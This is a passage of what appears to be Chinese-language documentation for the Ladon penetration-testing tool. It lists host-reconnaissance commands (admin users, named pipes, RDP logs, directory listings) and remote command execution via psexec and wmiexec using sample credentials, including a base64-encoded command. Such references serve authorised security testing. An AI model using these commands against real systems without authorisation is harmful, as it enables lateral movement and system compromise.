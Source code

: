 ##### 092 运行时版本&编译环境 	
```Bash
Ladon Ver<br>
Ladon Version
```

##### 093 运行时版本&编译环境&安装软件列表 	
```Bash
Ladon AllVer
Ladon AllVersion
```

##### 094 查看IE代理信息
```Bash
Ladon QueryProxy
```

##### 095  DirList列目录+基础渗透信息
###### 默认列全盘<br>
```Bash
Ladon DirList		
```
###### 指定盘符或目录
```Bash
Ladon DirList c:\   
```

##### 096 QueryAdmin查看管理员用户	
```Bash
Ladon QueryAdmin
```

##### 097 查看本机命名管道
```Bash
Ladon GetPipe
```

##### 098 RdpLog查看3389连接记录	
```Bash
Ladon RdpLog
```

### 远程执行(psexec/wmiexec/atexec/sshexec/smbexec)

![image](http://k8gege.org/k8img/Ladon/Study/Rexec.PNG)

##### 099 445端口 加密PSEXEC远程执行命令（交互式）
```Bash
net use \\192.168.1.8 k8gege520 /user:k8gege
Ladon psexec 192.168.1.8
psexec> whoami
nt authority\system
```

##### 100 135端口 WmiExec远程执行命令 （非交互式）
```Bash
Ladon wmiexec 192.168.1.8 k8gege k8gege520 cmd whoami
Ladon wmiexec 192.168.1.8 k8gege k8gege520 b64cmd d2hvYW1p
```
